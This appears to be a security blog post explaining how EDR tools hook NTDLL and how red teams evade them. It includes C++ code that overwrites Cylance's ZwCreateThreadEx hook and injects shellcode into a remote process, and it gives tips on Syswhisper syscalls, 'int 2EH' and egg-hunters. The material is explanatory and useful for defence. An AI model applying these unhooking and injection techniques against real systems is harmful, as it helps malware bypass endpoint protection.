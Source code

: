 # How Does AV Know?
Have you ever wondered how AV knows what that the application you're trying to run is malicious when it doesn't have a known signature?

# Before we begin
It's the first post on the new website, and we finally can include Markdown code blocks! No more screenshots of code! 
Blogger has served its purpose well, but it's finally time to move on to more adaptable hosting options. 
With that out of the way, the first post on the new site is going to be talking about a very common EDR evasion techniques and how to spot it.
This is something that has been discussed a lot before and probably won't be new to many, but even in 2022 it's still overlooked by EDR vendors, so it's worth going over.

## What is NTDLL?
In the simplest form, it exports the Windows Native API. 
Since it would be incredibly insecure to allow user mode applications direct access to manipulate the kernel, Windows instead allows you to do so through the Native API which is then mapped to Syscalls.
These Syscalls then are mapped via the system service descriptor table (SSDT) to the kernel functions memory address.
Things like WriteProcessMemory or CreateRemoteThread all go through here and have their own NT API equivalent - NtWriteVirtualMemory and NtCreateThreadEx respectively.
Then, once they have found their API equivalent call, the memory location that the loaded copy of NTDLL has is referenced.
And yes! You can completely avoid having to use these exported functions by just using the Syscalls instead, i.e. Syswhispering.
This comes with its own challenges though when manually implemented as these Syscall numbers reference different memory addresses in the system service descriptor table with each update.
So if you want to avoid NTDLL and use Syscalls, use Syswhisper - it cuts out the headaches and figures out the correct memory address for you.

## How does AV hook NTDLL?
As indicated above, NTDLL is used for a bunch of internal actions so, for the EDR, setting interrupt points to examine what kind of API requests are being made is critical.
Your typical EDR will modify the loaded version to allow it to send off suspicious function calls, such as below with CreateRemoteThread.
![EDR Jump Point](https://www.mdsec.co.uk/wp-content/uploads/2019/03/9797A6D5-B1D8-4E1C-924D-797035C0A3D9-1024x123.png "https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/")

In this screenshot provided by MDSec, Cylance has implemented a jump point for this function call so that it can inspect what exactly is being performed before passing it back to the original process.
EDR will typically do this for every function that can be abused. But each EDR is built differently so while Cylance might have this jmp here, perhaps Crowdstrike does not. Just something to keep in mind.


## Unhooking for fun and profit
We know what NTDLL is and how it's used and we also know how EDR puts jump points into it in order to examine suspicious calls. 
The next step after this is how can we defeat this process? 

```cpp
void removeCylanceHook(const char* dll, const char* apiName, char code) {
    DWORD old, newOld;
    void* procAddress = GetProcAddress(LoadLibraryA(dll), apiName);
    printf("[*] Updating memory protection of %s!%s\n", dll, apiName);
    VirtualProtect(procAddress, 10, PAGE_EXECUTE_READWRITE, &old);
    printf("[*] Unhooking Cylance\n");
    memcpy(procAddress, "\x4c\x8b\xd1\xb8", 4);
    *((char*)procAddress + 4) = code;
    VirtualProtect(procAddress, 10, old, &newOld);
} 
```
The above snippet is taken from MDSec [here](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/).
The key part to highlight is you can see there is a new value being copied to a memory location.
Here they are overwriting this process address with the original bytes pointing to the kernel functions memory address.
Every memory address exported from the Native API in fact will start with these bytes. 
After implementing this, when the application continues execution, it will no longer have a jump instruction to Cylance's analysis.

```cpp
printf("[*] Opened target process %d\n", processID);
printf("[*] Allocating memory in target process with VirtualAllocEx\n");
void *alloc = VirtualAllocEx(proc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == (void*)0) {
    printf("[!] Error: Could not allocate memory in target process\n");
    return 1;
}
printf("[*] Allocated %d bytes at memory address %p\n", sizeof(buf), alloc);
printf("[*] Attempting to write into victim process using WriteProcessMemory\n");
if (WriteProcessMemory(proc, alloc, buf, sizeof(buf), NULL) == 0) {
    printf("[!] Error: Could not write to target process memory\n");
    return 1;
}
printf("[*] WriteProcessMemory successful\n");

// Remove the NTDLL.DLL hook added by userland DLL
removeCylanceHook("ntdll.dll", "ZwCreateThreadEx", 0xBB);
printf("[*] Attempting to spawn shellcode using CreateRemoteThread\n");
HANDLE createRemote = CreateRemoteThread(proc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
printf("[*] Success :D\n");
```
When this is run, before getting to the CreateRemoteThread function, the application calls the aforementioned removeCylanceHook function with the API name for ZwCreateThreadEx.
The Zw prefix here is important as this ensures that the kernel mode variant for the function is overwritten to point away from the injected EDR jump, whereas specifying Nt would not have done.
So now when our application hits the CreateRemoteThread call, it asks the loaded copy of NTDLL to pass on the request to the SSDT that now has the hook for Cylance removed and functions normally.

## Pros & Cons
So why go through all this work when Syswhisper makes it far simpler?
Well, as [Captmeelo found](https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html), EDR could be looking for the ```syscall``` instruction in the binary. 
A simple bypass though in this case is to replace ```syscall``` in the asm file of Syswhisper with ```int 2EH``` which is a legacy instruction for referencing kernel mode. 
*However* this **also** has issues. ```int 2EH``` is trivial to hunt for so now we're entering the territory of adding an [egg-hunter](https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/) to the code in order to find and replace items in memory at run time.
We'd replace ```syscall``` with a random string in the Syswhispers asm file and then at run time implement the egg-hunter to change our previously random string to ```syscall```.
This definitely provides a high level of evasion, but you have to weigh the cost in time versus the advantage gained.

***References***
> https://www.codeproject.com/Articles/1191465/The-Quest-for-the-SSDTs
> 
> https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/
> 
> https://www.geoffchappell.com/studies/windows/win32/ntdll/api/index.htm
> 
> https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/
> 
> https://www.ired.team/offensive-security/defense-evasion/bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis
> 
> https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html
> 
> https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/
> 
> https://rioasmara.com/2021/06/20/25-bytes-of-every-function-in-ntdll/